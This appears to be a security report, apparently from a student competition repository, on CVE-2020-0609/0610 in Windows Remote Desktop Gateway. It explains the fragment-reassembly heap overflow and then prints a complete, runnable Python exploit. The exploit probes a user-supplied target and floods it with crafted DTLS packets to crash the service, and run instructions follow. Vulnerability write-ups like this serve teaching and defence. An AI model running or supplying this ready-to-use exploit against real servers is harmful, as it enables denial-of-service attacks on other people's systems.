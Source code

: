 
<div align="center"><h1>CVE-2020-0609 and CVE-2020-0610 REPORT</h1></div>

## About the vulnerability

A remote code execution vulnerability exists in Windows Remote Desktop Gateway (RD Gateway) when an unauthenticated attacker connects to the target system using RDP and sends specially crafted requests. This vulnerability is pre-authentication and requires no user interaction. An attacker who successfully exploited this vulnerability could execute arbitrary code on the target system.  
To exploit this vulnerability, an attacker would need to send a specially crafted request to the target systems RD Gateway via RDP.

**On versions:** Windows Server 2012, 2012 R2, 2016, 2019

## Explanation

The RDG UDP protocol splits the message into multiple packets to transport them. Since UDP is connectionless these packets can arrive in any order. The packets are reassembled at the recipient using the packet headers `fragment_id`, `num_fragments`, `fragment_length`. The function implemented to reassemble the packets has some bugs which lead to this vulnerability.

To summarize the packet reassembly algorithm used : we first allocate memory on the heap to act as a buffer and then divide this buffer into many sections of size (= `max_fragment_size`). Now whenever a packet arrives, we check if we have received that fragment before using its id, if we have not received that fragment before we copy its contents to the buffer. we copy the entirety of the fragment to the address (`&buffer + fragment_id * max_fragment_size`). Later when all packets have arrived we simply concatenate all the sections and end up with the actual message.

The problem arises because the size of all the sections required to hold all the packets may be much more than the actual size of the message and therefore the buffer. Thus we can write data on the heap outside the memory which was allocated for us, overwriting other important data this causes the process to run into errors and crash leading to a DoS.

Say the message length is 500, max fragment size is 1000
we can have two packets
```
packet (id=0) : length = 300
packet (id=1) : length = 200
assigned buffer size is 1000
packet 0 is written to the buffer at offset 0 (0 * max_fragment_size) and,
packet 1 is written to the buffer at offset 1000 (1 * max_fragment_size)
```
We can see that packet 1 is written beyond the memory assigned to the buffer and this leads to an overflow even though the buffer was big enough to hold the message.

## Exploit

```
import struct
import ssl
import sys
import signal
from socket import socket, AF_INET, SOCK_DGRAM
from dtls import do_patch, sslconnection

target = input("=> Target website/IP address : ")
port = int(input("=> Port number : "))

#Creating and wrapping SSL socket and establishing connection with target
def open_socket(target1, port1):
    socket1 = ssl.wrap_socket(socket(AF_INET, SOCK_DGRAM))
    setattr(socket1, "ssl_version", sslconnection.PROTOCOL_DTLSv1)
    socket1.connect((target1, port1))
    return socket1

#Creating packets for checking presence of vulnerability and also for DoS attack
def dos_packet(frag_no, frag_id):
    frag = "A" * 2000
    buffer1 = struct.pack("<HHHHH", 5, 2006, frag_id, frag_no, 2000)
    buffer1 += frag.encode()
    return buffer1

#Check if the server is vulnerable
do_patch()
socketA = open_socket(target, port)
packetA = dos_packet(100, 0)
socketA.write(packetA)
signal.signal(signal.SIGALRM, lambda signum, frame: None)
signal.alarm(5)
vuln = False

try:
    response = socketA.recv(16)[-4:]
    value = struct.unpack("<L", response)[0]
    vuln = value != 0x8000ffff
except:
    vuln = True
signal.alarm(0)
socketA.close()

#If vulnerable, Initiating DoS attack
if vuln:
    print("Target is vulnerable.\nInitiating DoS attack.")
    do_patch()
    for i in range(5000):
        socket1 = open_socket(target, port)
        for j in range(10):
            packet = dos_packet(i, i)
            socket1.write(packet)
        socket1.close()

else:
    print("Target not vulnerable.")
```
[Exploit on github](https://github.com/Milind712000/INTERIIT21_SAPTANG/blob/main/chall3/exploit_CVE-2020-0609.py)

This exploit was tested on Windows server 2019 and performs DOS on Windows server 2019.

### How to run

#### Requirements
```
pip install python3-dtls
```
#### Run
```
python3 exploit_CVE-2020-0609.py
```

## Proof of Concept

[PoC video](https://www.youtube.com/watch?v=0jWB87UaN10)
